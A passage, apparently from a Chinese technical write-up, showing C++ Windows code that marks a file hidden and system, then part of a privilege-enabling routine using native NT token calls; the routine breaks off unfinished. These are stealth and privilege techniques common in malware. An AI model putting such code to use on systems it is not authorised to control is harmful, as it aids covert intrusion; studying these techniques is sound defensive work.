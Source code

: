 ```cpp
            SetFileAttributes(lpFinalPath, FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM);
        }
    }
}
```

![image-20240711160810886](https://img-host-arcueid.oss-cn-hangzhou.aliyuncs.com/img202407111608256.png)

### 获取特权模式

```cpp
BOOL SetPrivilege(LPCWSTR privilege)
{
    // 64-bit only
    if (sizeof(LPVOID) != 8)
    {
        return FALSE;
    }

    // Initialize handle to process token
    HANDLE token = NULL;

    // Open our token
    if (NtOpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &token) != 0)
    {
        return FALSE;
    }

    // Token elevation struct
    TOKEN_ELEVATION tokenElevation = { 0 };
    DWORD tokenElevationSize = sizeof(TOKEN_ELEVATION);

    // Get token elevation status
    if (NtQueryInformationToken(token, TokenElevation, &tokenElevation, sizeof(tokenElevation), &tokenElevationSize) != 0)
    {
        NtClose(token);
        return FALSE;
    }

    // Check if token is elevated
    if (!tokenElevation.TokenIsElevated)
    {
        NtClose(token);
        return FALSE;
    }

    // Lookup the LUID for the specified privilege
    LUID luid;
    if (!LookupPrivilegeValue(NULL, privilege, &luid))
    {
        NtClose(token);
        return FALSE;
    }

    // Size of token privilege struct
    DWORD tokenPrivsSize = 0;

    // Get size of current privilege array
    if (NtQueryInformationToken(token, TokenPrivileges, NULL, NULL, &tokenPrivsSize) != 0xC0000023)
    {
        NtClose(token);
```